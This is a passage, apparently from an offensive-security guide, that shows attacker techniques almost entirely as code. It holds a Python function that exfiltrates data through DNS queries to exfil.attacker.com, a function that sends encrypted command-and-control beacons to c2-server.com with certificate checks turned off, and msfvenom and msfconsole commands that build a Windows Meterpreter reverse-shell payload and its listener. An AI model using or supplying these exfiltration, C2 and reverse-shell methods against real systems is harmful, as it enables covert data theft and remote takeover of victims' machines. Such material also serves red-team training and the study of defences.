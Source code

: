 ```python
)
```

#### DNS Tunneling

```python
# Exfiltrate data via DNS queries
import dns.resolver

def dns_exfiltrate(data):
    # Encode data in subdomain
    encoded = base64.b64encode(data).decode()
    chunks = [encoded[i:i+60] for i in range(0, len(encoded), 60)]
    
    for i, chunk in enumerate(chunks):
        domain = f"{chunk}.{i}.exfil.attacker.com"
        try:
            dns.resolver.resolve(domain, 'A')
        except:
            pass
```

#### HTTPS Encryption

```python
# Encrypt C2 communication
import requests
from cryptography.fernet import Fernet

key = Fernet.generate_key()
cipher = Fernet(key)

def send_encrypted(data):
    encrypted = cipher.encrypt(data.encode())
    response = requests.post(
        "https://c2-server.com/beacon",
        data=encrypted,
        verify=False  # Accept self-signed certs
    )
    return cipher.decrypt(response.content)
```

## Post-Exploitation Frameworks

### Metasploit Meterpreter

```bash
# Generate payload
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=10.0.0.1 LPORT=4444 -f exe -o payload.exe

# Set up listener
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.0.1
set LPORT 4444
exploit

# Meterpreter commands
meterpreter> sysinfo
meterpreter> getuid
meterpreter> ps
meterpreter> migrate <PID>
```